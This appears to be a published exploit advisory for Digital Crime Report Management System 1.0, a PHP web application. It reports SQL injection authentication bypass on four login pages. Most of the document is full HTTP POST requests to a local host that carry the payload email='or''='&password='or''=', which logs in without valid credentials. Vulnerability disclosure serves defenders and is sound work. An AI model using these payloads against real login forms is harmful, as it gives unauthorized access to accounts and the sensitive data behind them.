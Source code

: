 EXP
---

    # Exploit Title: Digital Crime Report Management System 1.0 - SQL Injection (Authentication Bypass)
    # Date: 13 April 2021
    # Exploit Author: Galuh Muhammad Iman Akbar (GaluhID)
    # Vendor Homepage: https://iwantsourcecodes.com/digital-crime-report-management-system-in-php-with-source-code/
    # Software Link: https://iwantfilemanager.com/?dl=b48d951cbdd50568b031aab3b619fed2

    I Found SQL Injection in 4 Page Login (Police Login page, Incharge Login page, User Login & HQ Login)
    *Police Login page*

    POST /digital-cyber-crime-report/policelogin.php HTTP/1.1
    Host: 192.168.1.14
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 53
    Origin: http://192.168.1.14
    Connection: close
    Referer: http://192.168.1.14/digital-cyber-crime-report/policelogin.php
    Cookie: PHPSESSID=5sll425q7s76lpl9m1copg6mpe
    Upgrade-Insecure-Requests: 1

    email='or''='&password='or''='&s=

    *Incharge Login*
    POST /digital-cyber-crime-report/inchargelogin.php HTTP/1.1
    Host: 192.168.1.14
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 53
    Origin: http://192.168.1.14
    Connection: close
    Referer: http://192.168.1.14/digital-cyber-crime-report/inchargelogin.php
    Cookie: PHPSESSID=5sll425q7s76lpl9m1copg6mpe
    Upgrade-Insecure-Requests: 1

    email='or''='&password='or''='&s=

    *User Login*
    POST /digital-cyber-crime-report/userlogin.php HTTP/1.1
    Host: 192.168.1.14
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 61
    Origin: http://192.168.1.14
    Connection: close
    Referer: http://192.168.1.14/digital-cyber-crime-report/userlogin.php
    Cookie: PHPSESSID=5sll425q7s76lpl9m1copg6mpe
    Upgrade-Insecure-Requests: 1

    email=imanakbar1000%40gmail.com&password='or''='&s=

    *HQ Login*
    POST /digital-cyber-crime-report/headlogin.php HTTP/1.1
    Host: 192.168.1.14
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 61
    Origin: http://192.168.1.14
    Connection: close
    Referer: http://192.168.1.14/digital-cyber-crime-report/headlogin.php
    Cookie: PHPSESSID=5sll425q7s76lpl9m1copg6mpe
    Upgrade-Insecure-Requests: 1

    email=imanakbar1000%40gmail.com&password='or''='&s=